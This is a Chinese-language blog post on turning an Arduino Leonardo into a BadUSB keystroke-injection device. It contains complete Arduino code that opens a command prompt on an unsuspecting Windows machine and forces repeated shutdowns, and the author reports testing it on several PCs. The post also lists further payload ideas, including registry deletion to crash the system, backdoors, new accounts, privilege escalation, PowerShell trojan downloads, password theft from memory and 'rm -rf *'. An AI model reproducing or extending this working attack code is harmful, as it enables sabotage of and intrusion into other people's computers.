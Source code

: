 ```yaml
---
title: Arduino Leonardo 打造 Bad USB
date: 2016-11-27 02:48:23
tags: hack 
categories: hack
---
```


嘿嘿嘿，又是一篇猥琐小文。

<!--more -->

# 简介

什么是Bad USB？

![](/content/images/badusb/0.jpg)

BadUSB最可怕的一点是恶意代码存在于U盘的固件中，由于PC上的杀毒软件无法访问到U盘存放固件的区域，因此也就意味着杀毒软件和U盘格式化都无法应对BadUSB进行攻击。

简单来说，就是让USB设备伪装成但却充当键盘，被插入的电脑猝不及防会被迅速输入一定的“指令”，这个指令会让该电脑迅速成为肉鸡。

# 目标
Bad USB

# 效果
![](/content/images/badusb/preview.gif)

# 原料
1. Arduino Leonardo
2. 普通安卓USB线

# 举个🌰

比如我们要实现一个插入优盘就让对方电脑关机的功能：

用Arduino开发者工具，选择

![](/content/images/badusb/2.jpg)

Arduino Leonardo

然后把程序烧录进去

```C
#include <Keyboard.h>

void setup() {//初始化
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
void loop()//循环
{
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
```

已经在多台Windows电脑上试验成功。

# 进阶

当然，你可以实现很多功能

- 删除系统关键注册表使之蓝屏
- 留后门
- 新建用户
- 用户提权
- 调用Powershell下载木马
- 调用Powershell下载木马及从内存中提取出当前用户的Windows密码
- rm -rf *

此外，发现了一个专门收集Badusb的Github用户，非常有学习价值。

https://github.com/Xyntax/BadUSB-code

# 参考
http://www.extremetech.com/extreme/191467-badusb-returns-hackers-publish-code-that-could-infect-millions-of-usb-devices

http://www.freebuf.com/sectool/107242.html

http://www.freebuf.com/articles/terminal/53886.html

